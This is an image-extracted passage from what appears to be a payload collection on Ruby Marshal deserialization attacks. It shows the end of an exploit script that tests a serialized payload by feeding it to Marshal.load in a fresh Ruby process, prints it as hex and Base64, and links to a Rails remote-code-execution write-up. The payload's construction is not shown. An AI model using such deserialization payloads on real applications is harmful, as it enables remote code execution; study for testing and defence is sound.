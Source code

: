 ```ruby
puts "VALIDATION (in fresh ruby process):"
IO.popen("ruby -e 'Marshal.load(STDIN.read) rescue nil'", "r+") do |pipe|
  pipe.print payload
  pipe.close_write
  puts pipe.gets
  puts
end

puts "Payload (hex):"
puts payload.unpack('H*')[0]
puts


require "base64"
puts "Payload (Base64 encoded):"
puts Base64.encode64(payload)
```

Other RCE chain to exploit Ruby On Rails: [https://codeclimate.com/blog/rails-remote-code-execution-vulnerability-explained/](https://codeclimate.com/blog/rails-remote-code-execution-vulnerability-explained/)
